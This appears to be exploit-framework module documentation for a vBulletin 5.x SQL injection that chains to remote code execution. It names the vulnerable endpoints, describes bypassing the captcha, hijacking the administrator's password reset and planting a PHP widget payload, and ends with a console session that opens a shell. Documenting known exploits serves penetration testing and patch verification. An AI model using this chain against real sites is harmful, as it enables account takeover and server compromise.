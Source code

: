 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field.

#### Leveraging getContentIndexable SQL injection for RCE

The exploit begins by attempting to get a `nodeid` for use in the SQL injection attack, this can be supplied
by the user within the `NODE` module option, or if not supplied, the value is brute-forced within the bounds
of the `MINNODE` and `MAXNODE` module options. After acquiring a valid `nodeid`, the exploit attempts to obtain
the vBulletin install's table prefix. This is done by using the `getIndexableContent` SQL injection vulnerability
to query the `INFORMATION_SCHEMA` table and get a result we expect (to determine if there is a prefix attached).
In the module we use the `language` table for this process. After getting the table prefix we can begin dumping
the table data, we start with the administrator user id, username, token, and email. These are used later in the
process to make a lost password request and can also be used to backup the administrator user's data prior to the
destructive change that will happen when the password is changed later in the module. After acquiring the
administrator info the script begins the to gather other pieces needed to submit a lost password request. This
part can vary between installs but involves a form of "human verification" along with an administrator's email.
The module will attempt to determine the human verification (or captcha) type, then determine if a bypass or solve
is possible. There are 4 total types of human verification, an image (GD or ImageMagic based), a Question/Answer
(which is stored as a regular expression), Recaptcha2 (an external api based captcha), and disabled.

- If an `Image` (GD or ImageMagic based) human verification is selected, the module can bypass it and requires
no interaction. This is done by querying the database for the image contents using the SQL injection vulnerability.

- If the `Question/Answer` human verification is selected, the module will attempt to submit the answer retrieved
from the database utilizing the SQL injection vulnerability. This can sometimes fail and require manual intervention
if a complex regular expression is used but the answer is provided through the modules output.

- If the `Recaptcha2` human verification method is selected, the module will fail with a message along with an
administrators email to use for a lost password request.

- If `Disabled` is chosen, the script will work without action.

After bypassing the human verification the script will attempt to send a lost password request, this will send
an email to the administrator. If the human verification request fails, the module can be configured to skip the
human verification and lost password steps. This is done by setting the modules `MANUALLOSTPASS` option to true,
**this however does require that just prior to running the exploit the lost password request is made**. If the
administrator completes the request, the activation token will be removed from the database and the next step of
the reset will fail. After the lost password request is made, the module then attempts to retrieve the Activation
ID from the database using the SQL injection vulnerability. When all of the above is completed, the administrators
password can finally be reset. The password is changed to a random 10-16 character alphanumeric password which is
displayed in the modules output.

The module can now begin to leverage the administrator access for remote command execution. This begins by first creating
a new widget instance, this widget instance is of a `widget_php` type (a special type that allows for php code embedded
within). After the widget instance is created, the module then attempts to modify the widget to add our selected payload.
The widget is then ready to use and is added to a new page. This page is created with a randomly generated 10 to 16
character alphanumeric url. The payload and attack is then ready to execute and the module makes a final request in the
attack process to execute the PHP payload. Upon successful completion, the page is deleted from the vBulletin install.

## Verification Steps

1. Do: ```use exploit/multi/http/vbulletin_getindexablecontent```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```set PAYLOAD [PAYLOADNUM]```
6. Do: ```run```

## Options

### MANUALLOSTPASS

A boolean value used to determine if the lost password request should be automated or will be performed manually. **Default: false**

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired by brute-forcing.

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf5 > use exploit/multi/http/vbulletin_getindexablecontent 
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set RHOSTS vb.local
RHOSTS => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set VHOST vb.local
VHOST => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set TARGETURI /vb5
TARGETURI => /vb5
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set PAYLOAD 2
msf5 exploit(multi/http/vbulletin_getindexablecontent) > check
[*] 192.168.1.100:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/vbulletin_getindexablecontent) > run

[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Brute forcing to find a valid node id.
[+] Successfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[*] Performing SQL injection on target to retrieve 'table_name' from 'information_schema.columns'.
[+] Successfully retrieved table to get prefix from vb5_language.
[*] Performing SQL injection on target to retrieve 'userid' from 'vb5_administrator'.
[*] Performing SQL injection on target to retrieve 'username' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'token' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'email' from 'vb5_user'.
[+] Retrieved administrator uid: 1 user: administrator email: zenofex@exploitee.rs and password: $2y$15$IKz0ra/N2WrJr4BZZMExIOwIET.4Tz8Wni20BMEHjG/A.k9tuOK.W
[*] Sending request to '/vb5/ajax/api/hv/fetchHvType' to get human verification type.
[+] Retrieved HV/captcha type of 'Image'.
[*] Making request to '/vb5/ajax/api/hv/generateToken' to retrieve HV token.
[+] Retrieved '85885c3fafb61b91cb3d2959e13ffe07' human verification token.
[*] Using HV token '85885c3fafb61b91cb3d2959e13ffe07' and SQLinjection to determine HV answer.
[*] Performing SQL injection on target to retrieve 'answer' from 'vb5_humanverify'.
[+] Retrieved '4w8CPc' answer to HV token '85885c3fafb61b91cb3d2959e13ffe07'.
[*] Making request to '/vb5/auth/lostpw' to begin lost password process.
[*] Performing SQL injection on target to retrieve 'activationid' from 'vb5_useractivation'.
[*] Sending reset password request to '/vb5/auth/reset-password'.
[+] User with userid '1' successfully reset password to 'dSxTtxI7yh'.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator .
[*] Making request to '/vb5/ajax/activate-sitebuilder' to activate site-builder functionality.
[+] Successfully enabled site-builder functionality.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator cplogin.
[*] Making request to '/vb5/ajax/api/widget/saveNewWidgetInstance' to create new widget.
[+] Created new widget instance.
[*] Making request to '/vb5/ajax/api/widget/saveAdminConfig' to add payload to widget.
[+] Successfully added payload to widget.
[*] Sending request to '/vb5/admin/savepage' to save new page at 'OToB9nTU'.
[+] Page successfully create and should be accessible at '/vb5/OToB9nTU'.
[+] Executing PHP payload (230 bytes) at /vb5/OToB9nTU.
[*] Sending request to '/vb5/OToB9nTU' to execute payload.
[*] Sending delete page request to '/vb5/ajax/api/page/delete'.
[+] Successfully deleted page with pageid: 148
[*] Started bind TCP handler against 192.168.1.100:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.100:4444) at 2020-05-22 21:24:42 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

